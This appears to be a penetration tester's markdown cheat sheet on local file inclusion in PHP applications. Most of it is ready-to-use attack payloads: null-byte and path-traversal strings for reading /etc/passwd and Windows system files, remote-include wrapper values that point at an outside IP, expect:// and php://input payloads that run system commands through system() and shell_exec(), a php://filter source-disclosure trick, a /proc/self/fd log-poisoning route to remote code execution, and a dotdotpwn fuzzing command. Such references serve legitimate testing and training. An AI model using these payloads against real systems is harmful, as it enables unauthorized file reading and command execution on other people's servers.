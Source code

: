 # php wrappers, LFI

## Workarounds

NOTE: **Read the file that is running LFI** to get more information about the code.

```bash
# using null byte %00
/etc/passwd%00

# LFI wordlist
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```

## .php wrappers

```bash
# protocol wraper
file=http://IP/
file=ftp://IP/
file=//IP/smb-share/file

# expect wrapper
# allows to run system commands
file=expect://id

# input wrapper
file=php://input
# needs to send POST data
<?php system('id'); ?> | <?php shell_exec('id'); ?>

# filter wrapper
file=php://filter/convert.base64-encode/resource=PHP-FILE
```

## LFI to RCE (linux)

```bash
# using LFI can read access log files and then log poision
# if user does not have perms to read log files; can do file descriptor way
LFI=/proc/self/fd/{NUMBER}

# once have access to log file > log-poisoning.
```

## LFI Paths (windows)

```bash
# sample paths to test
C:\Windows\System32\Drivers\etc\hosts
C:\\Windows\\System32\\Drivers\\etc\\hosts
\Windows\System32\Drivers\etc\hosts
\\Windows\\System32\\Drivers\\etc\\hosts
C:\Windows\win.ini
C:\\Windows\\win.ini
\Windows\win.ini
\\Windows\\win.ini
C:\Windows\system.ini
C:\\Windows\\system.ini
\Windows\system.ini
\\Windows\\system.ini
```

## [dotdotpwn](https://github.com/wireghoul/dotdotpwn)

Note: works for http, ftp, tftp

```bash
dotdotpwn -h IP -m MODE -f FILE-TO-FUZZ -U USER -P PASS
```